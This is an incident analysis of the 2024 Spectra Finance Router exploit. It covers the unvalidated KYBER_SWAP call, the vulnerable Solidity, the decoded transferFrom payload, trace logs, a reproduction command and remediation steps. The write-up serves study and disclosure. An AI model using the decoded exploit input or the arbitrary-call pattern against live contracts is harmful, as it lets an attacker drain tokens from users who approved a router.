



# Spectra Finance Exploit — Arbitrary External Call via the Router's `KYBER_SWAP` Command

> One-line summary: Spectra's `Router` exposes a `KYBER_SWAP` (`0x12`) command that performs an
> **unvalidated** `kyberRouter.call(targetData)` with fully attacker-controlled target and calldata —
> letting anyone make the Router call **any contract as itself**, which the attacker used to drain a
> user's `asdCRV` via the user's standing approval to the Router.

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo does not whole-compile, so this PoC was extracted).
> Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source: [src_router_Dispatcher.sol](sources/Router_51Bdbf/src_router_Dispatcher.sol).

---

## Key info

| | |
|---|---|
| **Loss** | ~$73,000 — **188,013.365 asdCRV** drained from a single victim's wallet |
| **Vulnerable contract** | `Router` (impl) — [`0x51BdbfCd7656e2C25Ad1BC8037F70572B7142eCC`](https://etherscan.io/address/0x51BdbfCd7656e2C25Ad1BC8037F70572B7142eCC#code), behind proxy [`0x3d20601ac0Ba9CAE4564dDf7870825c505B69F1a`](https://etherscan.io/address/0x3d20601ac0Ba9CAE4564dDf7870825c505B69F1a#code) |
| **Stolen token / "pool"** | `asdCRV` (StakeDAO `SdCrvCompounder`) — [`0x43E54C2E7b3e294De3A155785F52AB49d87B9922`](https://etherscan.io/address/0x43E54C2E7b3e294De3A155785F52AB49d87B9922#code) |
| **Victim** | `0x279a7DBFaE376427FFac52fcb0883147D42165FF` (held 188,013.36 asdCRV, had approved the Router) |
| **Attacker EOA** | [`0x53635bf7b92b9512f6de0eb7450b26d5d1ad9a4c`](https://etherscan.io/address/0x53635bf7b92b9512f6de0eb7450b26d5d1ad9a4c) |
| **Attacker contract** | [`0xba8ce86147ded54c0879c9a954f9754a472704aa`](https://etherscan.io/address/0xba8ce86147ded54c0879c9a954f9754a472704aa) |
| **Attack tx** | [`0x491cf8b2a5753fdbf3096b42e0a16bc109b957dc112d6537b1ed306e483d0744`](https://app.blocksec.com/explorer/tx/eth/0x491cf8b2a5753fdbf3096b42e0a16bc109b957dc112d6537b1ed306e483d0744) |
| **Chain / block / date** | Ethereum mainnet / 20,369,956 / July 23, 2024 |
| **Compiler** | Solidity v0.8.20+commit.a1b79de6, optimizer **1 run** |
| **Bug class** | Arbitrary external call / unsanitized call target (CWE-749) abusing third-party token approvals |

---

## TL;DR

Spectra's `Router` is a Uniswap-Universal-Router-style command dispatcher: callers pass a byte string of
commands and a matching array of ABI-encoded inputs to `execute(...)`, and the Router runs each command
on their behalf. To enable Spectra↔Kyber swaps, the Router added a `KYBER_SWAP` command (`0x12`).

The handler for that command
([Dispatcher.sol:322-350](sources/Router_51Bdbf/src_router_Dispatcher.sol#L322-L350)) does:

```solidity
(address kyberRouter, address tokenIn, uint256 amountIn, address tokenOut, , bytes memory targetData)
    = abi.decode(_inputs, (address, address, uint256, address, uint256, bytes));
...
(bool success, ) = kyberRouter.call{value: msg.value}(targetData);   // ⚠️ arbitrary call
```

There is **no check** that `kyberRouter` is the real KyberSwap aggregator, and `targetData` is
arbitrary. So an attacker can ask the Router to call **any address with any calldata, as the Router
itself**. Because Spectra users grant the Router ERC-20 approvals (that is the whole point of a
router), the attacker simply pointed the Router at the `asdCRV` token and made it execute
`transferFrom(victim, attacker, victimBalance)`. The Router was a previously-approved spender for the
victim, so the transfer succeeded and **188,013.365 asdCRV (~$73K)** left the victim's wallet in a single call.

The exploit needs no flash loan and no capital — just one victim who had a live approval to the Router.

---

## Background — what Spectra's Router does

[Spectra Finance](https://etherscan.io/address/0x51BdbfCd7656e2C25Ad1BC8037F70572B7142eCC#code) is a
yield-tokenization protocol (PT/YT splitting of ERC-4626 interest-bearing tokens). Its `Router`
([Router.sol](sources/Router_51Bdbf/src_router_Router.sol)) batches multi-step protocol actions —
deposits, redeems, Curve swaps, flash loans — into one transaction, à la the
[Uniswap Universal Router](https://github.com/Uniswap/universal-router).

The entry point is `execute`:

```solidity
function execute(bytes calldata _commands, bytes[] calldata _inputs, uint256 _deadline)
    external payable override checkDeadline(_deadline)
{ execute(_commands, _inputs); }
```
([Router.sol:66-72](sources/Router_51Bdbf/src_router_Router.sol#L66-L72)). Its selector is
`0x3593564c = execute(bytes,bytes[],uint256)` — the exact selector the PoC calls.

Each command byte selects a handler in `Dispatcher._dispatch`
([Dispatcher.sol:82](sources/Router_51Bdbf/src_router_Dispatcher.sol#L82)). The command set is defined
in [Commands.sol](sources/Router_51Bdbf/src_router_Commands.sol); the relevant one here:

```solidity
// Performs a swap on Kyberswap.
// (address kyberRouter, address tokenIn, uint256 amountIn, address tokenOut, uint256 expectedAmountOut, bytes targetData)
uint256 constant KYBER_SWAP = 0x12;
```
([Commands.sol:137-141](sources/Router_51Bdbf/src_router_Commands.sol#L137-L141)).

The Router is meant to hold **no user funds between transactions** — every flow is supposed to pull
exactly what it needs via the user's approval, use it, and return the rest. That design makes the
Router a high-value, widely-approved spender — which is precisely what makes an arbitrary-call bug
inside it catastrophic.

A standing detail that makes the asdCRV (`SdCrvCompounder`) token the perfect target: it is a
`TransparentUpgradeableProxy` ERC-20 with normal `transferFrom` semantics — i.e. a spender with
allowance can move a holder's balance.

---

## The vulnerable code

### `KYBER_SWAP` handler — unrestricted call target and calldata

```solidity
} else if (command == Commands.KYBER_SWAP) {
    (
        address kyberRouter,
        address tokenIn,
        uint256 amountIn,
        address tokenOut,
        ,                       // expectedAmountOut — decoded but never enforced here
        bytes memory targetData
    ) = abi.decode(_inputs, (address, address, uint256, address, uint256, bytes));
    if (tokenOut == Constants.ETH) {
        revert AddressError();
    }
    if (tokenIn == Constants.ETH) {
        if (msg.value != amountIn) {
            revert AmountError();
        }
        (bool success, ) = kyberRouter.call{value: msg.value}(targetData);   // ⚠️ ARBITRARY CALL
        if (!success) {
            revert CallFailed();
        }
    } else {
        amountIn = _resolveTokenValue(tokenIn, amountIn);
        IERC20(tokenIn).forceApprove(kyberRouter, amountIn);
        (bool success, ) = kyberRouter.call(targetData);                     // ⚠️ ARBITRARY CALL
        if (!success) {
            revert CallFailed();
        }
        IERC20(tokenIn).forceApprove(kyberRouter, 0);
    }
}
```
[Dispatcher.sol:322-350](sources/Router_51Bdbf/src_router_Dispatcher.sol#L322-L350)

- `kyberRouter` — **attacker-chosen target address**. Never compared against an allow-list / registry
  / hard-coded KyberSwap address.
- `targetData` — **attacker-chosen calldata**. Passed verbatim to `.call`.
- `tokenIn == Constants.ETH` branch — when `tokenIn` is the native-ETH sentinel
  `0xEeee...EEeE` ([Constants.sol:10](sources/Router_51Bdbf/src_router_Constants.sol#L10)), the handler
  skips the `forceApprove` dance entirely and goes straight to the raw call with `msg.value == amountIn`.
  The attacker set `amountIn = 0`, so `msg.value == 0` satisfies the check and **no value or approval is needed**.

Net effect: `Router.call(arbitraryTarget, arbitraryCalldata)` — executed with `address(Router)` as
`msg.sender` on the target.

### Why the Router is a juicy `msg.sender`

The Router's other commands rely on users approving it as an ERC-20 spender (see e.g. the legitimate
`TRANSFER_FROM` handler at
[Dispatcher.sol:85-87](sources/Router_51Bdbf/src_router_Dispatcher.sol#L85-L87), which itself only
ever pulls from `msgSender`). Any token where `allowance[victim][Router] > 0` can be drained by making
the Router call `token.transferFrom(victim, attacker, amount)`.

---

## Root cause — why it was possible

The single root cause: **the `KYBER_SWAP` command performs an external call to an unvalidated,
caller-supplied address with caller-supplied calldata, executed with the Router's own identity.**

A safe integration with an external aggregator must constrain *at least one* of:

1. **The target.** KyberSwap's aggregation router has a known, fixed address (or set of addresses).
   The handler should require `kyberRouter == <trusted Kyber address>` (or look it up in the
   `IRegistry`). It validates neither.
2. **The selector / calldata shape.** If the target must be flexible, the handler should restrict
   `targetData`'s 4-byte selector to the expected swap function and reject anything that touches
   third-party approvals (no `transferFrom`, no `approve`, etc.). It does not inspect `targetData` at all.
3. **The Router's standing privileges.** Because the Router is a universally-approved spender, *any*
   path that lets a caller dictate what the Router calls is equivalent to "drain everyone who approved
   the Router." The arbitrary-call primitive collapses straight into theft.

Compounding factors that made exploitation trivial:

- **The `tokenIn == ETH` shortcut** removes even the `forceApprove(kyberRouter, amountIn)` /
  `forceApprove(kyberRouter, 0)` book-keeping, so the attacker doesn't have to fund the Router or
  juggle approvals — `amountIn = 0`, `msg.value = 0`, done.
- **`expectedAmountOut` is decoded but ignored** in the handler — there is no post-call slippage / output
  assertion that might have caught "this wasn't a swap."
- **The Router is permissionless.** `execute(bytes,bytes[],uint256)` is `external payable` with only a
  deadline check ([Router.sol:66-77](sources/Router_51Bdbf/src_router_Router.sol#L66-L77)); anyone can
  call it for anyone's victim.

The fix Spectra shipped was to stop trusting an arbitrary target — i.e. validate `kyberRouter` against
a known address and/or restrict the callable surface.

---

## Preconditions

- A victim with a **live ERC-20 approval to the Router** for a token with normal `transferFrom`
  semantics. Here: `0x279a7DBF...` had approved the Router for at least 188,013.365 asdCRV (the
  trace shows the approval being consumed to exactly 0 — see the `Approval(... value: 0)` event below).
- The token must be transferable by an approved spender (asdCRV / `SdCrvCompounder` is a standard
  upgradeable ERC-20 — ✓).
- No capital, no flash loan, no special timing. The attacker just crafts one `execute` call.

---

## Attack walkthrough (with on-chain numbers from the trace)

The whole exploit is **one** `Router.execute(0x12, [input], deadline)` call. The single `input[0]`
encodes the `KYBER_SWAP` tuple. Decoded directly from the calldata in
[output.txt](output.txt):

| Field | Value | Meaning |
|---|---|---|
| `kyberRouter` | `0x43E54C2E…87B9922` | **the asdCRV token** (NOT KyberSwap) — the call target |
| `tokenIn` | `0xEeee…EEeE` | native-ETH sentinel → take the no-approval `if` branch |
| `amountIn` | `0` | so `msg.value == amountIn == 0` passes |
| `tokenOut` | `0x7FA9…1496` | attacker (PoC's `address(this)`); not `ETH`, so the `tokenOut==ETH` guard passes |
| `expectedAmountOut` | `1` | decoded, never enforced |
| `targetData` | `0x23b872dd …` | **`transferFrom(victim, attacker, 188013.365e18)`** |

`targetData` decodes to exactly:

```
selector = 0x23b872dd                              // transferFrom(address,address,uint256)
from     = 0x279a7DBFaE376427FFac52fcb0883147D42165FF   // victim
to       = 0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496   // attacker (address(this) in the PoC)
amount   = 188013365080870249823427                      // = 188,013.365080870249823427 asdCRV
```

Step-by-step, as it executes:

| # | Step | Concrete value | Effect |
|---|------|----------------|--------|
| 0 | **Read victim balance** (PoC setup / pre-check) | `asdCRV.balanceOf(victim) = 188,013.365080870…` | Attacker sizes the drain to the victim's full balance. |
| 1 | **Call** `Router.execute(0x12, [input], block.timestamp+20)` | selector `0x3593564c` | Deadline OK; `msgSender = attacker`; loop hits the one `0x12` command. |
| 2 | Proxy `0x3d20601a` **delegatecalls** impl `0x51BdbfCd` | — | Logic runs in the proxy's storage context. |
| 3 | `_dispatch` enters `KYBER_SWAP` branch; `tokenIn == ETH` ⇒ raw-call branch | `amountIn=0`, `msg.value=0` | No approval/value needed. |
| 4 | **`kyberRouter.call(targetData)`** ⇒ `asdCRV.transferFrom(victim, attacker, 188,013.365…)` | — | Router is an approved spender ⇒ **succeeds**. |
| 5 | `asdCRV` emits `Transfer(victim → attacker, 188,013.365…)` and `Approval(victim, Router, 0)` | allowance: `188,013.365… → 0` | Victim's tokens moved; approval drained. |
| 6 | **Read attacker balance** (PoC post-check) | `asdCRV.balanceOf(attacker) = 188,013.365080870…` | Confirms the heist. |

Begin/End log from the run:

```
[Begin] Attacker asdCRV balance before exploit: 0.000000000000000000
[End]   Attacker asdCRV balance after exploit:  188013.365080870249823427
```

The token-side storage diff in the trace makes the theft unambiguous:

```
@ victim slot:   188013365080870249823427 → 0   // victim balance zeroed
@ attacker slot:                        0 → 188013365080870249823427   // attacker credited
@ allowance slot:188013365080870249823427 → 0   // victim's approval to Router consumed
```

### Profit / loss accounting

| Party | Token | Δ | USD (≈) |
|---|---|---:|---:|
| **Victim** `0x279a7DBF…` | asdCRV | **−188,013.365** | **−$73K** |
| **Attacker** `0x7FA9…1496` (`address(this)`) | asdCRV | **+188,013.365** | **+$73K** |
| Router | — | 0 | 0 |

The Router held no value of its own; the loss is borne entirely by the user who had approved it. (In
the live incident the attacker subsequently liquidated the asdCRV; the headline ~$73K is the value of
the stolen asdCRV.)

---

## Diagrams

### Sequence of the attack



### State evolution of the victim's asdCRV position



### The flaw inside the `KYBER_SWAP` handler



---

## Remediation

1. **Validate the call target.** Require `kyberRouter` to equal a trusted, hard-coded KyberSwap
   aggregator address (or one whitelisted in the Spectra `IRegistry`). Reject any other target:
   ```solidity
   if (kyberRouter != registry.getKyberRouter()) revert AddressError();
   ```
   This single check kills the bug.
2. **Restrict the callable surface.** Even with a trusted target, decode/inspect `targetData` and
   require its 4-byte selector to be the expected Kyber swap function. Never forward calldata whose
   selector could touch approvals (`transferFrom`, `approve`, `permit`) or self-administration.
3. **Don't let a router make arbitrary calls as itself.** Any "call an external integration" command
   must treat the router's own identity as a privileged resource. Route external swaps through a
   dedicated, minimal-privilege adapter that holds no standing approvals, rather than from the
   universally-approved Router contract.
4. **Enforce `expectedAmountOut`.** After the call, assert the Router actually received
   `>= expectedAmountOut` of `tokenOut` (and that `tokenIn` decreased by ~`amountIn`). A real swap
   produces output; an arbitrary `transferFrom` does not — this assertion would have reverted the attack.
5. **Pull-then-spend within the same command.** Prefer designs where the Router pulls `tokenIn` from
   `msgSender` immediately before the swap and pushes `tokenOut` to the recipient, so the Router never
   relies on (or exposes) long-lived third-party approvals.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has several
unrelated PoCs that fail to compile under `forge test`'s whole-project build):

```bash
_shared/run_poc.sh 2024-07-Spectra_finance_exp -vvvvv
```

- RPC: an **Ethereum mainnet archive** endpoint is required (fork block 20,369,956). `foundry.toml`
  uses an Infura archive endpoint; the originally-configured mainnet key returned HTTP 401, so it was
  rotated to a working key from the project's key pool.
- Result: `[PASS] testExploit()`, attacker asdCRV balance goes `0 → 188013.365080870249823427`.

Expected tail:

```
Ran 1 test for test/Spectra_finance_exp.sol:ContractTest
[PASS] testExploit() (gas: 84215)
Logs:
  [Begin] Attacker asdCRV balance before exploit: 0.000000000000000000
  [End] Attacker asdCRV balance after exploit:  188013.365080870249823427

Suite result: ok. 1 passed; 0 failed; 0 skipped
```

---

*References: attacker [`0x53635bf7…ad9a4c`](https://etherscan.io/address/0x53635bf7b92b9512f6de0eb7450b26d5d1ad9a4c),
attack tx [`0x491cf8b2…83d0744`](https://app.blocksec.com/explorer/tx/eth/0x491cf8b2a5753fdbf3096b42e0a16bc109b957dc112d6537b1ed306e483d0744);
disclosure thread [@shoucccc](https://x.com/shoucccc/status/1815981585637990899). Spectra later patched the
`KYBER_SWAP` handler to validate the call target.*
